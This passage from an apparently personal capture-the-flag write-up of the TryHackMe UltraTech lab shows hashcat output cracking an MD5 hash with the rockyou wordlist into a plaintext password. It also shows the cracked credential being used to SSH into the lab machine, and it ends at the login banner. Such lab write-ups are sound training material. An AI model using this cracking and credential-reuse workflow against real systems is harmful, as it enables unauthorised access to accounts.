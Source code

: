 ```
* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=3 -D DGST_R2=2 -D DGST_R3=1 -D DGST_ELEM=4 -D KERN_TYPE=0 -D _unroll'
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

0d0ea5111e3c1def594c1684e3b9be84:mrsheafy        
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: MD5
Hash.Target......: 0d0ea5111e3c1def594c1684e3b9be84
Time.Started.....: Wed Oct  7 16:33:00 2020 (4 secs)
Time.Estimated...: Wed Oct  7 16:33:04 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1329.7 kH/s (0.34ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 5345280/14344385 (37.26%)
Rejected.........: 0/5345280 (0.00%)
Restore.Point....: 5343232/14344385 (37.25%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: mrsoutley -> mrsburgy

Started: Wed Oct  7 16:32:56 2020
Stopped: Wed Oct  7 16:33:06 2020
bibo318@parrot:~/CTFs/tryhackme/UltraTech$
```

## Task 4 The root of all evil

Congrats if you've made it this far, you should be able to comfortably run commands on the server by now!

Now's the time for the final step!

You'll be on your own for this one, there is only one question and there might be more than a single way to reach your goal.

Mistakes were made, take advantage of it.

```
bibo318@parrot:~/CTFs/tryhackme/UltraTech$ ssh r00t@10.10.185.130
The authenticity of host '10.10.185.130 (10.10.185.130)' can't be established.
ECDSA key fingerprint is SHA256:RWpgXxl3MyUqAN4AHrH/ntrheh2UzgJMoGAPI+qmGEU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.185.130' (ECDSA) to the list of known hosts.
r00t@10.10.185.130's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Oct  7 14:38:02 UTC 2020

  System load:  0.03               Processes:           101
  Usage of /:   24.3% of 19.56GB   Users logged in:     0
  Memory usage: 74%                IP address for eth0: 10.10.185.130
  Swap usage:   0%


```
